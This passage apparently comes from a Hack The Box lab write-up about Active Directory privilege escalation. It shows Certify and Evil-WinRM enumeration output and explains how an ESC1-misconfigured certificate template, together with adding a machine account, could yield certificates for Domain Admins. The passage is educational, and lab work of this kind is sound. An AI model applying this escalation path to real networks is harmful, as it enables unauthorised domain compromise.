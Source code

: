 ```cmd
...snip...
    Permissions
      Enrollment Permissions
        Enrollment Rights           : HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Domain Computers          S-1-5-21-622327497-3269355298-2248959698-515
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519

Certify completed in 00:00:10.0047510
```

The `ESC1` vulnerability, which involves a misconfigured certificate template, allows users with enrollment rights to specify a SAN ( subjectAltName ). The certificate name flag is associated with the construction of the subject name for an issued certificate. When set to `EnrolleeSuppliesSubject`, it signifies that the user initiating a new certificate request for the said template can specify the certificate for any other user. Exploiting this vulnerability would allow me to obtain certificates for other users, including Domain Admins.

According to the enrolment permissions for the vulnerable certificate, aside from Domain Admins, members of the `Domain Computers` group also have enrolment rights. [Domain Computers](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#domain-computers) is a default AD group comprising of all computers in the domain. Enumeration with adPEAS indicated that any authenticated user can add a computer to the domain. Since, the `svc_ldap` user isn't part of the group, exploiting the vulnerable certificate template requires joining the `Domain Computers` group.

```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> net group 'Domain Computers'
Group name     Domain Computers
Comment        All workstations and servers joined to the domain

Members

-------------------------------------------------------------------------------
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
```